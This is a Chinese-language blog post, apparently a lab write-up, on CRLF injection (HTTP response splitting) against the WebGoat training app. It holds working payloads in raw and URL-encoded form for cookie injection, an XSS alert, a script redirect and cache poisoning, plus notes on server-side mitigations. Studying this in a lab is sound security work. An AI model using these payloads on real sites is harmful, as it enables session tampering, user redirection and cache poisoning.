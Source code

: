 ```yaml
---
title: CRLF response 拆分攻击 
description: CRLF拆分漏洞比较冷门，现在也很少了，不过还是搭了个环境简单研究了下，补充了解。
categories:
 - web vul
tags:
 - CRLF
---
```


## 概述

> CRLF是“回车+换行”（\r和\n）/（%0d和%0a）的简称。  
形成原因：Web应用程序未对用户提交的数据进行严格过滤和检查，导致攻击者可以提交一些恶意字符如(CR、LF等)然后进行构造恶意代码进行攻击。正常输入的请求中加入恶意代码，控制HTTP响应header中的字符（Location，Set-Cookie），注入一个 %0d%0a，可以控制首部，注入两个%0d%0a，可以控制主体， 浏览器就是根据这两个CRLF来取出HTTP 内容并显示出来。

![pic2](/assets/crlf/1.png)

## 实验环境
* webgoat v5.4  
* 问题点：输入的“china”拼接到新链接，然后302跳转至新链接，构造输入，在“china”后面添加包含CRLF的恶意代码

![pic](/assets/crlf/2.png)

![pic](/assets/crlf/3.png)

## 漏洞利用

### 利用1 set cookie

`china%0d%0aSet-cookie:crlf=true`

![pic](/assets/crlf/4.png)

### 利用2 XSS弹窗

```sh
china
Content-Length: 0

HTTP/1.1 200 OK
Content-Type: text/html;charset=utf-8
Content-Length: 30

<html>
<script>alert(/xss/)</script>
</html>
```

`china%0AContent-Length:%200%0A%0AHTTP/1.1%20200%20OK%0AContent-Type:%20text/html;charset=utf-8%0AContent-Length:%2030%0A%0A%3Chtml%3E%0A%3Cscript%3Ealert(/xss/)%3C/script%3E%0A%3C/html%3E`

![pic](/assets/crlf/5.png)

![pic](/assets/crlf/6.png)

![pic](/assets/crlf/7.png)

### 利用3 XSS跳转劫持

换行符是`%0d%0a`，空一行是`%0d%0a%0d%0a`，实验也是成功的

```sh
china
Content-Length: 0

HTTP/1.1 200 OK
Content-Type: text/html
Content-Length: 47

<html>
<script language="JavaScript">
document.location.href="http://www.baidu.com"
</script>
</html>
```

`china%0d%0aContent-Length:%200%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aContent-Type:%20text/html%0d%0aContent-Length:%2047%0d%0a%0d%0a%3Chtml%3E%0A%3Cscript%20language%3D%22JavaScript%22%3E%0Adocument.location.href%3D%22http%3A%2F%2Fwww.baidu.com%22%0A%3C%2Fscript%3E%0A%3C%2Fhtml%3E`

![pic](/assets/crlf/71.png)

* server根据response1跳转

![pic](/assets/crlf/8.png)

* 发起第二个request进行跳转至新链接

![pic](/assets/crlf/9.png)

* 根据response2跳转至baidu

![pic](/assets/crlf/10.png)

### 利用4 缓存毒化

> Server收到带Last-Modified这个头，下次浏览器发送request就会带上If-Modified-Since或者If-Unmodified-Since，服务器收到这个request的If-Modified-Since后，通过读取它的值对比资源存在的地方的Last-Modified，服务器就告诉浏览器是否可以使用缓存。

```sh
china
Content-Length: 0
 
HTTP/1.1 200 OK
Content-Type: text/html
Last-Modified: Mon, 27 Oct 2099 14:50:18 GMT
Content-Length: 30
 
<html>arlentest</html>
```

![pic](/assets/crlf/11.png)

## 说明

> 现在的主流Web服务器比如IIS，Apache HTTP Server以及WebGoat使用的Tomcat等等都有对这个问题作过改进，服务器会对即将发送出去的HTTP响应头里面每一项的值都会做一定的编码或者转换，以避免这个问题。比如Tomcat就响应头中的每一项的值都做过了URLEncode，从而保证即使Web应用存在HTTP应答拆分的漏洞，Web服务器上也从底层平台的角度保证了尽可能避免HTTP应答拆分漏洞带来的威胁。所以如果想要在自己的实验室环境中重现对HTTP应答拆分漏洞的成功利用，可以尝试安装比较老的Web服务器版本，比如Tomcat 4.1.24之前的版本。另外客户端也会有些关系，因为客户端可能会在每次请求后完全收取服务器响应回来的数据，并且把超出范围的多余数据丢弃，这样也可以避免HTTP应答拆分攻击可能造成的影响。

## 参考链接

[WebGoat教程解析——HTTP Response Splitting](https://blog.csdn.net/eatmilkboy/article/details/8061159)  
[webgoat中文手册](http://www.owasp.org.cn/owasp-project/download/WebGoatv2.2.pdf)